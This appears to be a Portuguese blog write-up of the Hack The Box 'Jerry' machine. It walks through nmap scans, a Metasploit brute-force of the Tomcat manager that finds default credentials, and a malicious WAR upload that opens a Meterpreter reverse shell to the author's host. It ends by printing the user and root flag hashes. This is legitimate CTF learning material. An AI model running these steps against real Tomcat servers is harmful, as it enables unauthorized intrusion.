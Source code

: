 ```yaml
---
layout: post
title: Jerry [Hack The Box] - Explorando Apache Tomcat
author: obrerodrigues
categories: [CTFs]
tags: [Hack The Box]
---
```

Jerry é uma máquina windows nada díficil.

![](https://raw.githubusercontent.com/brerodrigues/brerodrigues.github.io/master/assets/img/jerry_htb.jpg)

Um scan do nmap padrão me fez desconfiar se estava mesmo conectado a vpn ou se tinha algo errado com minha conexão.

```
└──╼ $nmap -v -A  10.10.10.95 -oN nmap.txt
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-04 01:36 UTC
NSE: Loaded 148 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Initiating Ping Scan at 01:36
Scanning 10.10.10.95 [2 ports]
Completed Ping Scan at 01:36, 3.00s elapsed (1 total hosts)
Nmap scan report for 10.10.10.95 [host down]
NSE: Script Post-scanning.
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Initiating NSE at 01:36
Completed NSE at 01:36, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.63 seconds
```

Mas, na verdade, o servidor estava bloqueando pings. Então usei -Pn.

```
└──╼ $nmap -v -A  10.10.10.95 -Pn -oN nmap.txt
# Nmap 7.70 scan initiated Tue Sep  4 00:34:18 2018 as: nmap -v -A -Pn -oN nmap.txt 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.22s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  4 00:34:57 2018 -- 1 IP address (1 host up) scanned in 38.80 seconds
```

Um servidor web apache tomcat. Acessando o http://10.10.10.95:8080 temos a mensagem que "If you're seeing this, you've successfully installed Tomcat. Congratulations!". É uma instalação padrão sem muito a oferecer. O botão "Server Status" nos leva ao link: http://10.10.10.95:8080/manager/status onde é listado que o servidor é um Windows Server 2012 R2, a versão do jvm e outras coisinhas. Informações que podem ser úteis no futuro.

Por alguns minutos procurei como configurações default do tomcat poderiam permitir uma hackeada e não encontrei algo interessante. O Dirbuster também não estava dando resultados.
Ok... Hora de pensar melhor. Estava com sono e apenas seguindo uns passos padrões tipo nmap, dirbuster e exploração de algo óbvio. Mas não é assim que se faz essa porra. Foi hora de dar um passo atrás e repensar no que tinha até o momento, afinal, pela avaliação da galera, essa máquina deveria ser fácilima. E a única coisa que parecia ser a porta de entrada era a o http://10.10.10.95:8080/manager. Claro que já havia tentado umas senhas padrão ridículas como admin/admin mas quem sabe não havia algo além? Em meio as minhas pesquisas em relação a essa página de login vi esse módulo auxiliar do metasploit: [https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login) e pensei: por que não?

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
Description:
  This module simply attempts to login to a Tomcat Application Manager
  instance using a specific user/pass.
```

Nada mágico, apenas se usará uma lista de usuario/senha e tentará logar no application manager.
Setei os bagulhos do metasploit e botei o bicho para rodar enquanto pensava e pesquisava por outros meios de acesso.

```
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOST 10.10.10.95
[!] RHOST is not a valid option for this module. Did you mean RHOSTS?
RHOST => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.10.10.95
RHOSTS => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
```

Eu realmente não acreditava que isso ia dar em algum lugar. Eles me ensinaram que ataques de força bruta são praticamente inúteis. Maldito livro proibido do curso de hacker!

```
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)
```

Mas olhe só... O usuário tomcat usa a senha secreta s3cret. Agora sim temos algo útil.
Ao acessar o manager temos as aplicações que estão rodando no servidor e temos o poder de dar deploy em um arquivo war nosso. Em outras palavras: execução de código que com certeza será malicioso. Se você não sabe, deveria pesquisar sobre o que é um deploy em um servidor tomcat, como o java faz as coisas e os carais. Não seja um kiddie que vai setar as coisas no metasploit e sair rodando. Que seja. Foda-se. Na verdade, um kiddie não faria ideia do que fazer ao ver uma página como essa onde não dá pra upar seu c99.php. C99... Estou velho. Seja um kiddie, seja feliz. Vote 666 e desbloqueie o Enéas na urna eletrônica.

Agora sim essa máquina ficou fácil pra carai. E o metasploit, convenientemente, tem um outro módulo para fazer upload e executar um war maliciosissimo em um server que se tenha o usuário e senha: [https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload)

```
msf exploit(multi/http/tomcat_mgr_upload) > set HttpPassword s3cret
HttpPassword => s3cret
msf exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
```

Sem esquecer do payload:

```
msf exploit(multi/http/tomcat_mgr_upload) > set PAYLOAD windows/meterpreter_reverse_tcp
msf exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.10.14.200
```

E mandar um exploit.

```
msf exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.200:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying jA9Vn9pNZQ08eS3tHb8R21z1JcjF...
[*] Executing jA9Vn9pNZQ08eS3tHb8R21z1JcjF...
[*] Meterpreter session 1 opened (10.10.14.200:4444 -> 10.10.10.95:49194) at 2018-09-04 01:15:07 +0000
[*] Undeploying jA9Vn9pNZQ08eS3tHb8R21z1JcjF ...
```

Que coisa linda, rapaz.

Sem dificuldade, dentro da pasta C:\Users\Administrator\Desktop\flags> há o arquivo '2 for the price of 1.txt'

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,587,751,936 bytes free
```

Esqueci o comando para ler um arquivo no Windows, então voltei ao meterpreter só pra isso:

```
meterpreter > cat "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

Se tiver afim de ler o write-up de uma máquina menos fácil, dá uma sacada na [canape](https://brerodrigues.github.io/ctfs/favorites/canape-hack-the-box-write-up).
